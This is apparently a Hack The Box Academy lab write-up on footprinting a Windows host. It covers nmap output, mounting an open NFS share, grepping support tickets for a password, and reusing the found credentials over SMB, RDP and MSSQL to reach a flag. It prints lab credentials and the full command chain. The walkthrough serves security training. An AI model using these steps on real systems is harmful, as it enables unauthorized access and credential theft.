

# Section 20: Footprinting Lab - Medium

Module: 04. Footprinting

---

## NMAP Emuneration
```bash
PORT     STATE SERVICE       VERSION
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2049/tcp open  nlockmgr      1-4 (RPC #100021)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-07-24T06:33:08+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: WINMEDIUM
|   NetBIOS_Domain_Name: WINMEDIUM
|   NetBIOS_Computer_Name: WINMEDIUM
|   DNS_Domain_Name: WINMEDIUM
|   DNS_Computer_Name: WINMEDIUM
|   Product_Version: 10.0.17763
|_  System_Time: 2026-07-24T06:33:00+00:00
| ssl-cert: Subject: commonName=WINMEDIUM
| Issuer: commonName=WINMEDIUM
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-07-23T06:30:18
| Not valid after:  2027-01-22T06:30:18
| MD5:   5661:3aae:f994:a42b:df1d:5749:db19:4f8e
|_SHA-1: fa3b:072c:c96d:aa98:cf59:592a:d583:0a59:c8a2:db77
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-07-24T06:33:01
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```

## Leverage NFS
Running:
```bash
┌─[eu-academy-1]─[10.10.14.112]─[htb-ac-2162140@htb-ry34gajyyx]─[~]
└──╼ [★]$ showmount -e 10.129.134.144
Export list for 10.129.134.144:
/TechSupport (everyone)
┌─[eu-academy-1]─[10.10.14.112]─[htb-ac-2162140@htb-ry34gajyyx]─[~]
└──╼ [★]$ mkdir target-NFS
┌─[eu-academy-1]─[10.10.14.112]─[htb-ac-2162140@htb-ry34gajyyx]─[~]
└──╼ [★]$ sudo mount -t nfs 10.129.134.144:/ ./target-NFS/ -o nolock
┌─[eu-academy-1]─[10.10.14.112]─[htb-ac-2162140@htb-ry34gajyyx]─[~]
└──╼ [★]$ cd target-NFS/
┌─[eu-academy-1]─[10.10.14.112]─[htb-ac-2162140@htb-ry34gajyyx]─[~/target-NFS]
└──╼ [★]$ tree .
.
└── TechSupport  [error opening dir]

2 directories, 0 files
┌─[eu-academy-1]─[10.10.14.112]─[htb-ac-2162140@htb-ry34gajyyx]─[~/target-NFS]
└──╼ [★]$ cd TechSupport/
bash: cd: TechSupport/: Permission denied
┌─[eu-academy-1]─[10.10.14.112]─[htb-ac-2162140@htb-ry34gajyyx]─[~/target-NFS]
└──╼ [★]$ ls -la
total 68
drwxrwxrwx  2 nobody         nogroup           64 Jul 24 02:30 .
drwx------ 23 htb-ac-2162140 htb-ac-2162140  4096 Jul 24 02:38 ..
drwx------  2 nobody         nogroup        65536 Nov 10  2021 TechSupport
```
Doesn't have permissions but we can list it as `root`:
```bash
┌─[root@htb-ry34gajyyx]─[/home/htb-ac-2162140/target-NFS]
└──╼ #cd TechSupport/
┌─[root@htb-ry34gajyyx]─[/home/htb-ac-2162140/target-NFS/TechSupport]
└──╼ #ls
ticket4238791283649.txt  ticket4238791283700.txt  ticket4238791283751.txt
ticket4238791283650.txt  ticket4238791283701.txt  ticket4238791283752.txt
ticket4238791283651.txt  ticket4238791283702.txt  ticket4238791283753.txt
ticket4238791283652.txt  ticket4238791283703.txt  ticket4238791283754.txt
ticket4238791283653.txt  ticket4238791283704.txt  ticket4238791283755.txt
ticket4238791283654.txt  ticket4238791283705.txt  ticket4238791283756.txt
ticket4238791283655.txt  ticket4238791283706.txt  ticket4238791283757.txt
ticket4238791283656.txt  ticket4238791283707.txt  ticket4238791283758.txt
ticket4238791283657.txt  ticket4238791283708.txt  ticket4238791283759.txt
ticket4238791283658.txt  ticket4238791283709.txt  ticket4238791283760.txt
ticket4238791283659.txt  ticket4238791283710.txt  ticket4238791283761.txt
ticket4238791283660.txt  ticket4238791283711.txt  ticket4238791283762.txt
ticket4238791283661.txt  ticket4238791283712.txt  ticket4238791283763.txt
ticket4238791283662.txt  ticket4238791283713.txt  ticket4238791283764.txt
ticket4238791283663.txt  ticket4238791283714.txt  ticket4238791283765.txt
ticket4238791283664.txt  ticket4238791283715.txt  ticket4238791283766.txt
ticket4238791283665.txt  ticket4238791283716.txt  ticket4238791283767.txt
ticket4238791283666.txt  ticket4238791283717.txt  ticket4238791283768.txt
ticket4238791283667.txt  ticket4238791283718.txt  ticket4238791283769.txt
ticket4238791283668.txt  ticket4238791283719.txt  ticket4238791283770.txt
ticket4238791283669.txt  ticket4238791283720.txt  ticket4238791283771.txt
ticket4238791283670.txt  ticket4238791283721.txt  ticket4238791283772.txt
ticket4238791283671.txt  ticket4238791283722.txt  ticket4238791283773.txt
ticket4238791283672.txt  ticket4238791283723.txt  ticket4238791283774.txt
ticket4238791283673.txt  ticket4238791283724.txt  ticket4238791283775.txt
ticket4238791283674.txt  ticket4238791283725.txt  ticket4238791283776.txt
ticket4238791283675.txt  ticket4238791283726.txt  ticket4238791283777.txt
ticket4238791283676.txt  ticket4238791283727.txt  ticket4238791283778.txt
ticket4238791283677.txt  ticket4238791283728.txt  ticket4238791283779.txt
ticket4238791283678.txt  ticket4238791283729.txt  ticket4238791283780.txt
ticket4238791283679.txt  ticket4238791283730.txt  ticket4238791283781.txt
ticket4238791283680.txt  ticket4238791283731.txt  ticket4238791283782.txt
ticket4238791283681.txt  ticket4238791283732.txt  ticket4238791283783.txt
ticket4238791283682.txt  ticket4238791283733.txt  ticket4238791283784.txt
ticket4238791283683.txt  ticket4238791283734.txt  ticket4238791283785.txt
ticket4238791283684.txt  ticket4238791283735.txt  ticket4238791283786.txt
ticket4238791283685.txt  ticket4238791283736.txt  ticket4238791283787.txt
ticket4238791283686.txt  ticket4238791283737.txt  ticket4238791283788.txt
ticket4238791283687.txt  ticket4238791283738.txt  ticket4238791283789.txt
ticket4238791283688.txt  ticket4238791283739.txt  ticket4238791283790.txt
ticket4238791283689.txt  ticket4238791283740.txt  ticket4238791283791.txt
ticket4238791283690.txt  ticket4238791283741.txt  ticket4238791283792.txt
ticket4238791283691.txt  ticket4238791283742.txt  ticket4238791283793.txt
ticket4238791283692.txt  ticket4238791283743.txt  ticket4238791283794.txt
ticket4238791283693.txt  ticket4238791283744.txt  ticket4238791283795.txt
ticket4238791283694.txt  ticket4238791283745.txt  ticket4238791283796.txt
ticket4238791283695.txt  ticket4238791283746.txt  ticket4238791283797.txt
ticket4238791283696.txt  ticket4238791283747.txt  ticket4238791283798.txt
ticket4238791283697.txt  ticket4238791283748.txt  ticket4238791283799.txt
ticket4238791283698.txt  ticket4238791283749.txt  ticket4238791283800.txt
ticket4238791283699.txt  ticket4238791283750.txt  ticket4238791283801.txt
┌─[root@htb-ry34gajyyx]─[/home/htb-ac-2162140/target-NFS/TechSupport]
└──╼ #grep -ril "password" . 2>/dev/null
./ticket4238791283782.txt
┌─[root@htb-ry34gajyyx]─[/home/htb-ac-2162140/target-NFS/TechSupport]
└──╼ #cat ./ticket4238791283782.txt
Conversation with InlaneFreight Ltd

Started on November 10, 2021 at 01:27 PM London time GMT (GMT+0200)
---
01:27 PM | Operator: Hello,. 
 
So what brings you here today?
01:27 PM | alex: hello
01:27 PM | Operator: Hey alex!
01:27 PM | Operator: What do you need help with?
01:36 PM | alex: I run into an issue with the web config file on the system for the smtp server. do you mind to take a look at the config?
01:38 PM | Operator: Of course
01:42 PM | alex: here it is:

 1smtp {
 2    host=smtp.web.dev.inlanefreight.htb
 3    #port=25
 4    ssl=true
 5    user="alex"
 6    password="lol123!mD"
 7    from="alex.g@web.dev.inlanefreight.htb"
 8}
 9
10securesocial {
11    
12    onLoginGoTo=/
13    onLogoutGoTo=/login
14    ssl=false
15    
16    userpass {      
17    	withUserNameSupport=false
18    	sendWelcomeEmail=true
19    	enableGravatarSupport=true
20    	signupSkipLogin=true
21    	tokenDuration=60
22    	tokenDeleteInterval=5
23    	minimumPasswordLength=8
24    	enableTokenJob=true
25    	hasher=bcrypt
26	}
27
28     cookie {
29     #       name=id
30     #       path=/login
31     #       domain="10.129.2.59:9500"
32            httpOnly=true
33            makeTransient=false
34            absoluteTimeoutInMinutes=1440
35            idleTimeoutInMinutes=1440
36    }   
```
Found a trusted credentials: `alex:lol123!mD`, use this to leverage the SMB:

## Leverage SMB
```bash
┌─[✗]─[root@htb-ry34gajyyx]─[/home/htb-ac-2162140/target-NFS/TechSupport]
└──╼ #smbclient //10.129.134.144/devshare -U alex
Password for [WORKGROUP\alex]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Nov 10 11:12:22 2021
  ..                                  D        0  Wed Nov 10 11:12:22 2021
  important.txt                       A       16  Wed Nov 10 11:12:55 2021

		10328063 blocks of size 4096. 6098199 blocks available
smb: \> get important.txt 

# important.txt: sa:87N1ns@slls83
```
## Connect to SQL Server
This is a really trusted credentials, tried connect to the MSSQL of the server:
```bash
xfreerdp /u:alex /p:'lol123!mD' /v:10.129.202.41
```
Then run MSSQL as administrator and type the password of `sa` we have found. Open `Accounts > dbo.devsacc` and then get the password of HTB account on the row 157:



```
HTB:lnch7ehrdn43i7AoqVPK4zWR
```
---

[Back to Module Index](./README.md)
